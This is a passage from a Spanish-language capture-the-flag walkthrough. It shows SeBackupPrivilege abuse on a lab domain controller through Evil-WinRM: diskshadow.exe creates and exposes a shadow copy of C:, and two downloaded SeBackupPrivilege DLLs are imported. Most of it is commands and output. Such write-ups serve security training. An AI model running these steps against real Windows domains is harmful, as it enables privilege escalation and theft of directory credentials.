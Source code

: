 Ahora tenemos que subir ese archivo a la máquina víctima (si estas usando evil-winrm puedes usar la función upload). Una vez lo tengamos subido con diskshadow.exe le pasaremos ese archivo y nos creará una copia del sistema de archivos en Z:

```powershell
*Evil-WinRM* PS C:\tmp\> diskshadow.exe /s .\diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  3/1/2023 9:23:23 AM

-\> set metadata C:\tmp\tmp.cabs
-\> set context persistent nowriters
-\> add volume c: alias someAlias
-\> create
Alias someAlias for shadow ID {09f7232c-9faa-48f5-bd6a-29649902e91b} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {7d29a1c1-16f8-4e1a-9a37-b6371c43c19a} set as environment variable.

Querying all shadow copies with the shadow copy set ID {7d29a1c1-16f8-4e1a-9a37-b6371c43c19a}

        * Shadow copy ID = {09f7232c-9faa-48f5-bd6a-29649902e91b}               %someAlias%
                - Shadow copy set: {7d29a1c1-16f8-4e1a-9a37-b6371c43c19a}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 3/1/2023 9:23:24 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-\> expose %someAlias% z:
-\> %someAlias% = {09f7232c-9faa-48f5-bd6a-29649902e91b}
The shadow copy was successfully exposed as z:\.
-\>
```

Ahora tenemos que importar dos .dll:

- https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

- https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll

Nos las bajamos y las subimos a la máquina. Una vez en la máquina, lo importamos.

```powershell
*Evil-WinRM* PS C:\tmp\> import-module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\tmp\> import-module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\tmp\>
```
